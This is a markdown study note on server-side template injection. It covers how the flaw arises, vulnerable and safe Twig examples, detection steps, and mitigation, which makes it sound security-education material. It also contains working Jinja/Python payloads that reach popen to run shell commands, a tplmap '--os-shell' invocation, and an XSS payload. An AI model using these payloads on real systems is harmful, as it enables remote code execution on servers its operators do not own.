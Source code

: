 ```yaml
---
cover: ../.gitbook/assets/image (6).png
coverY: 0
---
```


# Server-side template injection \[SSTI]

#### **Server-side template injection :**

occurs when user-controlled input is embedded into a server-side template, allowing users to inject template directives. This allows an attacker to inject malicious template directives and possibly execute arbitrary code on the affected server.

**Template engines** : are designed to generate web pages by combining fixed templates with volatile data.

**How can SSTI occur ? →** when user input is concatenated directly into a template rather than passed in as data

***

***

#### What is the IMPACT ?

attacker can potentially achieve remote code execution (<mark style="color:red;">`RCE`</mark>), taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

Even in cases where full remote code execution is not possible : attacker can use SSTI to read a sensitive data and files.

#### Is vulnerable or Not?

```php
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```

is Not vulnerable because user input is passed as data

```php
$output = $twig->render("Dear " . $_GET['name']);
```

vulnerable because instead of static value passed into template

```
<http://vulnerable-website.com/?name={{bad-stuff-here}>}
bad-stuff-here -> like 7*7 to test or {{hello|upper}} {{hello|lower}} 
```

Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications.

***

***

#### **Constructing SSTI Attack**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

#### **Detection Steps**

* Identify the application’s built-in language and the running template engine by `wrong message` , `payloads` , etc.
* Identify injectable user-controlled inputs in GET and POST requests.
* Fuzz the application with special characters **`${{<%[%'"}}%\\`** Observe which ones get interpreted by the server and which ones raise errors.
* Insert basic template injection payloads in all user inputs, and observe if the application engine evaluates them.

Most template languages allow you to freely input content either by using `HTML tags` directly or by using the `template's native syntax`

***

***

#### Exploit :

```python
{{''.__class__.__mro__[1].__subclasses__()[278]("id",shell=True,stdout=-1).communicate()}}

1 -> refer to 'object'
278 -> 'popen function' used to execute command on server
popen("id",shell=True,stdout=-1) -> have 3 value
id -> refer to command 
# these numbers are not static

{{''.__class__.__base__.__subclasses__()[278].__init__.globals__['sys'].modules['os'].popen("id").read()}}

base -> show base of content in python (object) - we can replace it by 'mro__[1]'
warningMessage -> function import 'os' library
init -> to be in subclasses
```

```
Some Notes about Template techonolgies

PHP -> Smarty, Twigs
Java -> Velocity, Freemaker
Python -> JINJA, Mkao, Tornado
JS -> Jade, Rage
Ruby -> Liquid 
```

***

***

#### Methodology :

1- user input reflection

2- Technology and use some payload related for this technology

3- Exploit

<figure><img src="../.gitbook/assets/serverside.png" alt=""><figcaption></figcaption></figure>

#### Some Payloads For Test:

<figure><img src="../.gitbook/assets/EnwZh7qXcAEB3wu.jpeg" alt=""><figcaption></figcaption></figure>

LINK: [https://x.com/jae\_hak99/status/1331967876417327104](https://x.com/jae_hak99/status/1331967876417327104)

***

***

#### Automation

TPLMAP tool:

```python
# installation
git clone <https://github.com/epinna/tplmap.git>
cd tplmap
sudo pip3 install -r requirements.txt
python3 tplmap.py -u ‘<http://www.target.com/page.php?id=1*’>

# shell
python3 tplmap.py –os-shell -u ‘<http://www.target.com/page.php?id=1*’>

// '--os-shell' option to launch a pseudo-terminal on the target.
```

***

***

#### Some Notes

```python
// Node js payload not reflect value ${7*7} = ${7*7}
```

Payloads : [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Payloads : [https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md](https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

Jinja → is limit who can import in template

We can get `Stored XSS` via SSTI(Template injection) : payload → `{{constructor.constructor('alert(1)')()}}`

Link : [https://hackerone.com/reports/250837](https://hackerone.com/reports/250837)

`Reflected XSS`

Link : [https://hackerone.com/reports/399462](https://hackerone.com/reports/399462)

***

***

#### **Mitigation**

* Sanitize user inputs before passing them into the templates.
* Sandboxing: execute user’s code in a sandboxed environment; though some of these environments can be bypassed, they are still considered a protection mechanism to reduce the risk of the SSTI vulnerability.

***

<mark style="color:red;">**Notion link**</mark> : [https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f](https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f)

***
